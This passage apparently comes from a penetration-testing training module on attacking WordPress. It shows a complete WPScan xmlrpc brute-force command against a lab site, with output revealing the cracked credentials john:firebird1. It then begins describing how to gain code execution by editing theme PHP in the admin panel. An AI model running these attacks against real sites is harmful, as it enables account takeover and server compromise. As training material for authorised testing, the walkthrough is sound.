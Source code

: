 ### Login Bruteforce

WPScan can be used to brute force usernames and passwords. The scan report in the previous section returned two users registered on the website (admin and john). The tool uses two kinds of login brute force attacks, [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) and wp-login. The `wp-login` method will attempt to brute force the standard WordPress login page, while the `xmlrpc` method uses WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it’s faster.

&#x20; Attacking WordPress

```shell-session
root@htb[/htb]$ sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local

[+] URL: http://blog.inlanefreight.local/ [10.129.42.195]
[+] Started: Wed Aug 25 11:56:23 2021

<SNIP>

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - john / firebird1                                                                                           
Trying john / bettyboop Time: 00:00:13 <                                      > (660 / 14345052)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: john, Password: firebird1

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Wed Aug 25 11:56:46 2021
[+] Requests Done: 799
[+] Cached Requests: 39
[+] Data Sent: 373.152 KB
[+] Data Received: 448.799 KB
[+] Memory used: 221 MB

[+] Elapsed time: 00:00:23
```

The `--password-attack` flag is used to supply the type of attack. The `-U` argument takes in a list of users or a file containing user names. This applies to the `-P` passwords option as well. The `-t` flag is the number of threads which we can adjust up or down depending. WPScan was able to find valid credentials for one user, `john:firebird1`.

***

### Code Execution

With administrative access to WordPress, we can modify the PHP source code to execute system commands. Log in to WordPress with the credentials for the `john` user, which will redirect us to the admin panel. Click on `Appearance` on the side panel and select Theme Editor. This page will let us edit the PHP source code directly. An inactive theme can be selected to avoid corrupting the primary theme. We already know that the active theme is Transport Gravity. An alternate theme such as Twenty Nineteen can be chosen instead.
